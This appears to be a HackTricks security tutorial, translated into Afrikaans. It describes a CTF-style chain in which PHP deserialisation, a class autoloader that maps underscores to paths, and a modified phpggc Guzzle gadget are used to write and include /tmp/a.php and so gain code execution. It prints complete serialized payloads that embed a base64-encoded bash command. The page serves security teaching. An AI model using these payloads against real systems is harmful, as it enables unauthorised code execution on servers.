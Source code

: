 # PHP - Deserialisering + Autoload Klasse

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Eerstens, jy moet kyk wat [**Autoloading Klassen**](https://www.php.net/manual/en/language.oop5.autoload.php) is.

## PHP deserialisering + spl\_autoload\_register + LFI/Gadget

Ons is in 'n situasie waar ons 'n **PHP deserialisering in 'n webapp** gevind het met **geen** biblioteek wat kwesbaar is vir gadgets binne **`phpggc`** nie. Tog, in dieselfde houer was daar 'n **ander komponis webapp met kwesbare biblioteke**. Daarom was die doel om die **komponislaaier van die ander webapp** te **laai** en dit te misbruik om 'n **gadget te laai wat daardie biblioteek met 'n gadget** van die webapp wat kwesbaar is vir deserialisering, sal ontplof.

Stappe:

* Jy het 'n **deserialisering** gevind en daar **is geen gadget** in die huidige app kode nie
* Jy kan 'n **`spl_autoload_register`** funksie soos die volgende misbruik om **enige plaaslike lêer met `.php` uitbreiding** te **laai**
* Hiervoor gebruik jy 'n deserialisering waar die naam van die klas binne **`$name`** gaan wees. Jy **kan nie "/" of "."** in 'n klasnaam in 'n geserialiseerde objek gebruik nie, maar die **kode** vervang die **onderstrepings** ("\_") **met skewe strepies** ("/"). So 'n klasnaam soos `tmp_passwd` sal omgeskakel word na `/tmp/passwd.php` en die kode sal probeer om dit te laai.\
'n **Gadget voorbeeld** sal wees: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
As jy 'n **lêeroplaai** het en 'n lêer met **`.php`-uitbreiding** kan oplaai, kan jy hierdie funksionaliteit direk **misbruik** en reeds RCE kry.
{% endhint %}

In my geval, het ek niks soos dit gehad nie, maar daar was binne die **dieselfde houer** 'n ander komponis webblad met 'n **biblioteek wat kwesbaar is vir 'n `phpggc` gadget**.

* Om hierdie ander biblioteek te laai, moet jy eers die **komponislaaier van daardie ander webtoepassing laai** (want die een van die huidige toepassing sal nie toegang hê tot die biblioteke van die ander nie.) **Deur die pad van die toepassing te ken**, kan jy dit baie maklik bereik met: **`O:28:"www_frontend_vendor_autoload":0:{}`** (In my geval was die komponislaaier in `/www/frontend/vendor/autoload.php`)
* Nou kan jy die **ander app komponislaaier laai**, so dit is tyd om die **`phpgcc`** **payload** te genereer om te gebruik. In my geval het ek **`Guzzle/FW1`** gebruik, wat my toegelaat het om **enige lêer binne die lêerstelsel te skryf**.
* LET WEL: Die **gegenereerde gadget het nie gewerk nie**, om dit te laat werk het ek daardie payload **`chain.php`** van phpggc **gewysig** en **alle eienskappe** van die klasse **van privaat na publiek** gestel. As dit nie gedoen word nie, het die eienskappe van die geskepte objek na deserialisering van die string geen waardes gehad nie.
* Nou het ons die manier om die **ander app komponislaaier te laai** en 'n **phpggc payload wat werk**, maar ons moet dit **in dieselfde versoek doen sodat die laaier gelaai kan word wanneer die gadget gebruik word**. Hiervoor het ek 'n geserialiseerde array met albei objekke gestuur soos:
* Jy kan **eers die laaier sien wat gelaai word en dan die payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Nou kan ons **'n lêer skep en skryf**, egter, die gebruiker **kon nie in enige gids binne die webbediener skryf nie**. Soos jy in die payload kan sien, word PHP **`system`** met 'n paar **base64** geskep in **`/tmp/a.php`**. Dan kan ons **die eerste tipe payload hergebruik** wat ons gebruik het as LFI om die composer loader van die ander webapp te laai **om die gegenereerde `/tmp/a.php`** lêer te laai. Voeg dit net by die deserialisering gadget:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Opsomming van die payload**

* **Laai die composer autoload** van 'n ander webapp in dieselfde houer
* **Laai 'n phpggc gadget** om 'n biblioteek van die ander webapp te misbruik (die aanvanklike webapp wat kwesbaar was vir deserialisering het geen gadgets in sy biblioteke gehad nie)
* Die gadget sal **'n lêer met 'n PHP payload** daarop in /tmp/a.php met kwaadwillige opdragte skep (die webapp gebruiker kan nie in enige gids van enige webapp skryf nie)
* Die finale deel van ons payload sal **die gegenereerde php-lêer laai** wat opdragte sal uitvoer

Ek moes **hierdie deserialisering twee keer aanroep**. In my toetsing is die eerste keer die `/tmp/a.php` lêer geskep maar nie gelaai nie, en die tweede keer is dit korrek gelaai.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

